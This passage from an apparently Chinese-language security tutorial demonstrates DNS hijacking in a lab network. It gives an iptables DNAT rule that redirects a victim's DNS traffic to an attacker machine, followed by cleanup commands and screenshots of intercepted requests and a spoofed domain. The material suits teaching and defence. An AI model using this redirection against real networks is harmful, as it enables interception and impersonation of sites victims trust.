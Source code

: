 此时我们利用 iptables 对受害者的流量进行重定向，将其访问 192.168.243.2:53 端口的流量重定向至攻击者 192.168.243.129:53

```bash
iptables -t nat -A PREROUTING -p udp --dport 53 -d 192.168.243.2 -j DNAT --to-destination 192.168.243.129:53

检查 nat 表、过滤表规则是否还存在：
iptables -t nat -L
iptables -L
# 删除命令
iptables -t nat -D PREROUTING -p udp --dport 53 -j REDIRECT --to-port 5353
iptables -t nat -D PREROUTING -p udp --dport 53 -d 8.8.8.8 -j DNAT --to-destination 127.0.0.1:53
```

受害人访问百度，可以发现攻击者截获了受害人的 dns 请求

[![](assets/1701606977-3ee63c7b11dc90020b674042a5122fd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200143-f676d06a-5a08-1.png)

将指定域名劫持至攻击者服务器

[![](assets/1701606977-7fcfd3f6f92f6c1f210e5bb78dd60f52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200153-fc6e480e-5a08-1.png)

当然，如果受害人使用了 https，伪造 https 站点会导致证书错误

[![](assets/1701606977-3611313c8cc98427650f1a0f07129dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200159-ffaf8bd6-5a08-1.png)
